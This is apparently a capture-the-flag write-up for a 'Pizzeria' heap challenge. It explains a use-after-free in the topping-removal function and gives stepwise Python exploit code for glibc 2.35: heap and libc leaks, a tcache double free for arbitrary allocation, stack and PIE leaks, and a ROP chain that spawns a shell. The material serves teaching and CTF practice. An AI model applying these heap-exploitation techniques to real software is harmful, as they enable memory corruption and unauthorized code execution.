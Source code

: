 # Pizzeria
```
 ____    _                        _ 
|  _ \  | |      __ _  _ __    __| |
| |_) | | |     / _` || '_ \  / _` |
|  _ <  | |___ | (_| || | | || (_| |
|_| \_\ |_____| \__,_||_| |_| \__,_|

 ____   _                        _        
|  _ \ (_) ____ ____  ___  _ __ (_)  __ _ 
| |_) || ||_  /|_  / / _ \| '__|| | / _` |
|  __/ | | / /  / / |  __/| |   | || (_| |
|_|    |_|/___|/___| \___||_|   |_| \__,_|

Choose one of the following options:
1. Add topping
2. Customize topping
3. Remove topping
4. Verify toppings
5. Bake Pizza
Enter your choice : 
```

This challenge is a pizza-topping picker. It contains a list of allowed toppings:
- Tomato, Onion, Capsicum, Corn, Mushroom, Pineapple, Olives, Double Cheese, Paneer, Chicken

And it lets you add a chosen quantity (up to 63) of any one of these toppings:
```
Enter your choice : 1

Which topping ?
Tomato
How much ?
8
Ok, adding Tomato
```

You can customize your toppings, which lets you edit its contents:
```
Enter your choice : 2

Which one to customize ?
Tomato
Enter new modified topping : San Marzano
New topping added successfully !
```

You can check the contents of a topping:
```
Enter your choice : 4

Which topping to verify ?
Tomato
San Marzano
```

And you can remove toppings:
```
Enter your choice : 3

Which topping to remove ?
Tomato
Tomato removed successfully !
```

Lastly, you can leave:
```
Enter your choice : 5

Baking ....
Here it is : 🍕
```
# How it works
"Toppings" are just strings allocated with `malloc`. Adding means allocating, removing means freeing, customizing means reading and verifying means writing. Leaving frees all the toppings and exits (doesn't return).
Each topping is a `char[]` with size `8*input_size`, and the max `input_size` is 63, so the biggest chunk you can get is 0x200.

Toppings are stored on the stack along with their sizes and with the list of allowed toppings, like this:
```c
int sizes[10];
char* allocated_toppings[10];
char* allowed_toppings[10];
```
# Vulnerability
Here's a simplified view of the `remove_topping` function:
```c
void remove_topping(char** allocated_toppings, char** allowed_toppings, int* sizes) {
    char chosen_topping[15];
    int idx;

	puts("Which topping to remove ?");
    fgets(chosen_topping, 15, stdin);
    chosen_topping[strcspn(chosen_topping, "\n")] = 0;
    idx = get_index(chosen_topping, allowed_toppings);
    free(allocated_toppings[idx]);
    sizes[idx] = 0;
    printf("%s removed successfully !\n", allowed_toppings[idx]);
}
```

It doesn't set `allocated_toppings[idx]` to `NULL`, meaning we can keep using that topping even though it's now a freed chunk. This is a UAF (User After Free).

The binary has all protections turned on and uses libc 2.35.
# Attack
We can allocate a chunk, free it, and then read it to leak the heap via a tcache forward pointer:
```python
io = conn()

malloc(io, toppings[0], 63)
free(io, toppings[0])
heap = u64(read(io, toppings[0]).ljust(8, b'\0')) << 12
aleak("heap", heap)
```

The biggest chunk size we can have is 0x200, which fits in the tcache but not in the fastbin, so if we fill the tcache and free another chunk, it'll end up in the unsorted bin giving us a libc leak:
```python
for i in range(7): malloc(io, toppings[i], 63)
malloc(io, toppings[7], 63)
malloc(io, toppings[8], 63) # barrier to avoid top chunk consolidation
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])

libc.address = u64(read(io, toppings[7]).ljust(8, b'\0')) - (libc.sym.main_arena+96)
aleak("libc", libc.address)
```

We can also do a double free, first filling the tcache, then triggering the double free, and then empty the tcache and allocate again, which will move the chunks from the fastbin to the tcache. This lets us have the same chunk both allocated and freed at the same time, letting us overwrite its tcache forward pointer and achieve arbitrary allocation.
I chose to allocate onto the tcache pointer for 0x200 chunks since its counter was 7 from when I leaked libc and that's enough allocations to finish the exploit:
```python
addr = (heap + 0x180) ^ ((heap + 0x1000) >> 12)

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
malloc(io, toppings[8], 10)
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])
free(io, toppings[7])

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
edit(io, toppings[7], p64(addr))
malloc(io, toppings[8], 10)
malloc(io, toppings[9], 10)
malloc(io, toppings[9], 10) # now we can modify this chunk with any address we want to allocate
```

Now I allocated a chunk onto `environ` to leak the stack:
```python
edit(io, toppings[9], p64(libc.sym.environ))
malloc(io, toppings[0], 63)
stack = u64(read(io, toppings[0]).ljust(8, b'\0'))
aleak("stack", stack)
```

And onto some pointer to the binary on the stack to leak the binary's base:
```python
pie_ret = stack - 0x188
edit(io, toppings[9], p64(pie_ret))
malloc(io, toppings[0], 63)
exe.address = u64(read(io, toppings[0]).ljust(8, b'\0')) - 0x23db
aleak("exe", exe.address)
```

I used one of the allowed toppings' strings to leak the binary's base, which fucked the next one up (it seems that malloc sets `*(chunk_addr+8)` to 0), so I had to fix it or the binary would crash:
```python
edit(io, toppings[0], flat(exe.address + 0x23db, exe.address + 0x23e2))
```

Both canaries and return pointers are at non-16 aligned addresses, so I couldn't just allocate onto them. I decided to allocate onto the list of allocated toppings to have infinite and truly arbitrary allocations:
```python
edit(io, toppings[9], p64(stack - 0x1d8))
malloc(io, toppings[8], 63)
```

The `bake_pizza` function doesn't actually `return`, it just calls `exit`, so I chose to allocate onto `customize_topping`'s return pointer, that way it would return right after my edit. And i overwrote it with a rop chain:
```python
edit(io, toppings[8], p64(stack-0x220))
rop = ROP([exe, libc])
rop.raw(rop.ret)
rop.system(libc.binsh())
edit(io, toppings[0], rop.chain())
```

And BOOM 💥 we've popped a shell!
Really nice challenge, I enjoyed it very much.